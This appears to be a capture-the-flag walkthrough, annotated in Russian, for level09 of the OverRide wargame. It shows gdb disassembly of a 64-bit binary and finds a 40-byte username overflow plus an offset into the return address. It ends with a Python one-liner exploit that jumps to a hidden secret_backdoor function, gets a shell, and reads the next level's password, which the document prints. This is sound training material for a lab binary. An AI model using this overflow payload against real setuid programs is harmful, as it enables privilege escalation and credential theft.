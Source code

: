[back](../defense.md)

Переполнение буфера

level08@OverRide:~$ su level09
Password: fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
	RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
	Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09

level09@OverRide:~$ cd /home/users/level09
	dr-xr-x---+ 1 level09 level09    80 Oct  2  2016 .
	dr-x--x--x  1 root    root      260 Oct  2  2016 ..
	-rw-r--r--  1 level09 level09   220 Oct  2  2016 .bash_logout
	lrwxrwxrwx  1 root    root        7 Oct  2  2016 .bash_profile -> .bashrc
	-rw-r--r--  1 level09 level09  3534 Oct  2  2016 .bashrc
	-rwsr-s---+ 1 end     users   12959 Oct  2  2016 level09
	-rw-r--r--+ 1 level09 level09    41 Oct 19  2016 .pass
	-rw-r--r--  1 level09 level09   675 Oct  2  2016 .profile

У исполняемого файла "level09" собственник "end"

При попытке запустить его мы получаем запрос имени и сообщения, 
которое отправляется "Unix-Dude" 
level09@OverRide:~$ ./level09
	--------------------------------------------
	|   ~Welcome to l33t-m$n ~    v1337        |
	--------------------------------------------
	>: Enter your username
	>>: Trifle
	>: Welcome, Trifle
	>: Msg @Unix-Dude
	>>: Hi
	>: Msg sent!

Исследуем файл с помощью gdb
level09@OverRide:~$ gdb level09
(gdb) disas main
	Dump of assembler code for function main:
   0x0000000000000aa8 <+0>:	push   %rbp
   0x0000000000000aa9 <+1>:	mov    %rsp,%rbp
   0x0000000000000aac <+4>:	lea    0x15d(%rip),%rdi        # 0xc10
   0x0000000000000ab3 <+11>:	callq  0x730 <puts@plt>
   0x0000000000000ab8 <+16>:	callq  0x8c0 <handle_msg>
   0x0000000000000abd <+21>:	mov    $0x0,%eax
   0x0000000000000ac2 <+26>:	pop    %rbp
   0x0000000000000ac3 <+27>:	retq   
	End of assembler dump.

Посмотрим все функции:
(gdb) info functions
	All defined functions:
	Non-debugging symbols:
	0x00000000000006f0  _init
	0x0000000000000720  strncpy
	0x0000000000000720  strncpy@plt
	0x0000000000000730  puts
	0x0000000000000730  puts@plt
	0x0000000000000740  system
	0x0000000000000740  system@plt
	0x0000000000000750  printf
	0x0000000000000750  printf@plt
	0x0000000000000760  __libc_start_main
	0x0000000000000760  __libc_start_main@plt
	0x0000000000000770  fgets
	0x0000000000000770  fgets@plt
	0x0000000000000780  __cxa_finalize
	0x0000000000000780  __cxa_finalize@plt
	0x0000000000000790  _start
	0x00000000000007bc  call_gmon_start
	0x00000000000007e0  __do_global_dtors_aux
	0x0000000000000860  frame_dummy
	0x000000000000088c  secret_backdoor
	0x00000000000008c0  handle_msg
	0x0000000000000932  set_msg
	0x00000000000009cd  set_username
	0x0000000000000aa8  main
	0x0000000000000ad0  __libc_csu_init
	0x0000000000000b60  __libc_csu_fini
	0x0000000000000b70  __do_gl

(gdb) disas handle_msg
	Dump of assembler code for function handle_msg:
   0x00000000000008c0 <+0>:	push   %rbp
   0x00000000000008c1 <+1>:	mov    %rsp,%rbp
	#### Initialize variables ####
   0x00000000000008c4 <+4>:	sub    $0xc0,%rsp             ; allocate 192 bytes on stack for local variables
   0x00000000000008cb <+11>:	lea    -0xc0(%rbp),%rax       ; struct s_message message;
   0x00000000000008d2 <+18>:	add    $0x8c,%rax             ; 140. 192 - 140 - 12 = 40
   0x00000000000008d8 <+24>:	movq   $0x0,(%rax)            ; bzero(message.username, 40) 
   0x00000000000008df <+31>:	movq   $0x0,0x8(%rax)         ; bzero(message.username, 40)
   0x00000000000008e7 <+39>:	movq   $0x0,0x10(%rax)        ; bzero(message.username, 40)
   0x00000000000008ef <+47>:	movq   $0x0,0x18(%rax)        ; bzero(message.username, 40)
   0x00000000000008f7 <+55>:	movq   $0x0,0x20(%rax)        ; bzero(message.username, 40)
   0x00000000000008ff <+63>:	movl   $0x8c,-0xc(%rbp)       ; message.len_message = 140;
	#### set_username ####
   0x0000000000000906 <+70>:	lea    -0xc0(%rbp),%rax       ; message
   0x000000000000090d <+77>:	mov    %rax,%rdi              ; message
   0x0000000000000910 <+80>:	callq  0x9cd <set_username>   ; set_username(&message);
	#### set_msg ####
   0x0000000000000915 <+85>:	lea    -0xc0(%rbp),%rax       ; message
   0x000000000000091c <+92>:	mov    %rax,%rdi              ; message
   0x000000000000091f <+95>:	callq  0x932 <set_msg>        ; set_msg(&message);
	#### print "Msg sent!" ####
   0x0000000000000924 <+100>:	lea    0x295(%rip),%rdi       # 0xbc0 ; ">: Msg sent!"
   0x000000000000092b <+107>:	callq  0x730 <puts@plt>       ; puts(">: Msg sent!");
   0x0000000000000930 <+112>:	leaveq
   0x0000000000000931 <+113>:	retq
	End of assembler dump.

handle_msg - декларирует структуру с 40 байт для записи имени, но не защищен от переполнения

Попробуем переполнить буфер
level09@OverRide:~$ (python -c 'print "d" * 40 + "\xff"'; cat) | ./level09
	--------------------------------------------
	|   ~Welcome to l33t-m$n ~    v1337        |
	--------------------------------------------
	>: Enter your username
	>>: >: Welcome, dddddddddddddddddddddddddddddddddddddddd?>: Msg @Unix-Dude
	>>: >: Msg sent!
	Segmentation fault (core dumped)
level09@OverRide:~$ 

Сега, отлично

Поскольку двоичный файл был скомпилирован в 64-разрядном формате, нам нужно найти правильное смещение, 
чтобы перезаписать содержимое указателя стека RSP (не EIP/RIP), 
чтобы заставить `handle_msg` перейти к `secret_backdoor`, а не вернуться к `main`.

Мы видим функцию "secret_backdoor", 
которая читает в буфер из стандартного ввода, 
а затем вызывает "system" с буфером. 

(gdb) disas secret_backdoor
	Dump of assembler code for function secret_backdoor:
   0x000000000000088c <+0>:	push   %rbp
   0x000000000000088d <+1>:	mov    %rsp,%rbp
   0x0000000000000890 <+4>:	add    $0xffffffffffffff80,%rsp
	#### Read from stdin ####
   0x0000000000000894 <+8>:	mov    0x20171d(%rip),%rax       # 0x201fb8 ; stdin
   0x000000000000089b <+15>:	mov    (%rax),%rax               ; stdin
   0x000000000000089e <+18>:	mov    %rax,%rdx                 ; load arg 3 - stdin
   0x00000000000008a1 <+21>:	lea    -0x80(%rbp),%rax          ; char buffer[128]; 
   0x00000000000008a5 <+25>:	mov    $0x80,%esi                ; load arg 2 - 128
   0x00000000000008aa <+30>:	mov    %rax,%rdi                 ; load arg 1 - buffer
   0x00000000000008ad <+33>:	callq  0x770 <fgets@plt>         ; fgets(buffer, 128, stdin);
	#### call system() ####
   0x00000000000008b2 <+38>:	lea    -0x80(%rbp),%rax          ; buffer
   0x00000000000008b6 <+42>:	mov    %rax,%rdi                 ; load arg - buffer
   0x00000000000008b9 <+45>:	callq  0x740 <system@plt>        ; system(buffer);
   0x00000000000008be <+50>:	leaveq
   0x00000000000008bf <+51>:	retq
	End of assembler dump.

Используем генератор переполнения буфера (https://wiremask.eu/tools/buffer-overflow-pattern-generator/?)

level09@OverRide:~$ gdb -q level09
Reading symbols from /home/users/level09/level09...(no debugging symbols found)...done.
(gdb) run
	Starting program: /home/users/level09/level09 
	--------------------------------------------
	|   ~Welcome to l33t-m$n ~    v1337        |
	--------------------------------------------
	>: Enter your username
	>>: dddddddddddddddddddddddddddddddddddddddd�
	>: Welcome, dddddddddddddddddddddddddddddddddddddddd?>: Msg @Unix-Dude
	>>: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
	>: Msg sent!
	Program received signal SIGSEGV, Segmentation fault.
	0x0000555555554931 in handle_msg ()
(gdb) x/s $rsp 
	0x7fffffffe5c8:	 "6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah"

Узнаем адрес secret_backdoor
(gdb) print secret_backdoor
	$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>

То есть, мы выяснили, что возможно переполнить буфер и у нас имеются все необходимые данные:
1. до переполнения имени пользователя необходимо 40 байт + для переполнения добвавляем "\xff" и перевод строки "\n"
2. буфер сообщения до переполнения RSP 200 байт + для перехода к `secret_backdoor` 0x55555555488c ("\x8c\x48\x55\x55\x55\x55\x00") и перевод строки "\n"
3. запустить shell

Попробуем это реализовать:
level09@OverRide:~$ (python -c 'print "d" * 40 + "\xff" + "\n" + "d" * 200 + "\x8c\x48\x55\x55\x55\x55\x00" + "\n" + "/bin/sh"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, dddddddddddddddddddddddddddddddddddddddd?>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
	end
cat /home/users/end/.pass
	j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
^C
	Segmentation fault (core dumped)
level09@OverRide:~$ su end
Password: j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
end@OverRide:~$ cd /home/users/end
end@OverRide:~$ ls -la
	total 13
	dr-xr-x---+ 1 end  end     80 Sep 13  2016 .
	dr-x--x--x  1 root root   260 Oct  2  2016 ..
	-rw-r--r--  1 end  end    220 Sep 10  2016 .bash_logout
	lrwxrwxrwx  1 root root     7 Sep 13  2016 .bash_profile -> .bashrc
	-rw-r--r--  1 end  end   3489 Sep 10  2016 .bashrc
	-rwsr-s---+ 1 end  users    5 Sep 10  2016 end
	-rw-r--r--+ 1 end  end     41 Oct 19  2016 .pass
	-rw-r--r--  1 end  end    675 Sep 10  2016 .profile
end@OverRide:~$ cat end
	GG !
end@OverRide:~$ 

Good Game !

[back](../defense.md)
